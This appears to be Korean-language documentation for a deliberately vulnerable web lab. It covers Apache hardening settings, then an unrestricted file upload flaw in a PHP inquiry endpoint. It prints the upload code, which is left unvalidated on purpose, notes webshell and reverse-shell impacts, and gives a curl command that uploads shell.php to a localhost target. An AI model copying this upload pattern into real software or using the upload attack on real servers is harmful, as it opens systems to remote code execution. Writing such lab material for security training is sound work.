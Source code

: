 
## 3. Apache 기본 보안

### 📍 위치: Apache 2.4.65 (백엔드)

### ✅ 기본 보안 설정

- **TraceEnable Off**: HTTP TRACE 메소드 비활성화
- **ServerTokens Prod**: 서버 정보 최소화
- **LimitRequestFieldSize**: 헤더 크기 제한
- **Timeout 300**: 요청 타임아웃

---

# ⚠️ 취약점 (Vulnerabilities)

## 1. 🔴 Unrestricted File Upload (Critical)

### 📍 위치: `/api/submit_inquiry.php:56-106`

### 🐛 취약점 상세

```php
// WARNING: Weak validation for security testing purposes only
$original_name = basename($file['name']);
$file_info = pathinfo($original_name);
$filename_base = $file_info['filename'];
$file_ext = isset($file_info['extension']) ? $file_info['extension'] : '';

// ❌ 파일 확장자 검증 없음
// ❌ MIME 타입 검증 없음
// ❌ 매직 바이트 검증 없음

move_uploaded_file($file['tmp_name'], $target_path);
chmod($target_path, 0644); // 읽기 권한 부여
```

### 💥 영향

- **임의 파일 업로드**: PHP 웹쉘 업로드 가능
- **원격 코드 실행**: `system()`, `exec()` 등 실행 가능
- **리버스쉘**: 공격자 서버로 쉘 연결 가능

### 🎯 공격 방법

#### 방법 1: 일반 업로드 (WAF 없을 때)
```bash
curl -F "image=@shell.php" http://localhost:9000/api/submit_inquiry.php
```
→ **WAF 적용 시**: ❌ 차단됨 (Rule 999004)

